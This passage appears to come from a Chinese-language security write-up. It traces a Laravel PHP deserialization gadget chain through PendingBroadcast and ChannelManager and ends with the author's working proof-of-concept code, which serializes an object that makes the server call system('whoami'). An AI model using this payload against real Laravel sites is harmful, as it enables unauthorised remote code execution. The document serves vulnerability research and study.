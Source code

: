 ![image-20210809101254374](images/16.png)

这里的`$this-customCreators[$driver]`和`$this->app`是可控的话就可以直接rce了

`$this-customCreators[$driver]`和`$this->app`是自定义变量可控

看看`$driver`的值怎么来的

![image-20210809101547903](images/17.png)

跟进getDefaultDriver()

![image-20210809101628252](images/18.png)

![image-20210809101648352](images/19.png)

这个函数被定义成了抽象函数,所以需要找他在它的继承类中的重写

这三个继承类中,在ChannelManager中对他进行了重写

![image-20210809101846829](images/20.png)

这个`$this->defaultChannel`也是可控的

那就可以直接写poc了、

这是我自己写的poc

```
<?php
namespace Illuminate\Broadcasting
{
    use Illuminate\Notifications\ChannelManager;
    class PendingBroadcast
    {
        protected $events;
        public function __construct()
        {
            $this->events=new ChannelManager();
        }
    }
    echo urlencode(serialize(new PendingBroadcast()));
}
namespace Illuminate\Notifications
{
    abstract class Manager
    {
        protected $app;
        protected $customCreators = [];
    }
    class ChannelManager extends Manager
    {
        protected $defaultChannel;
        public function __construct()
        {
            $this->app='whoami';
            $this->customCreators=['town'=>'system'];
            $this->defaultChannel='town';
        }
    }
}
```
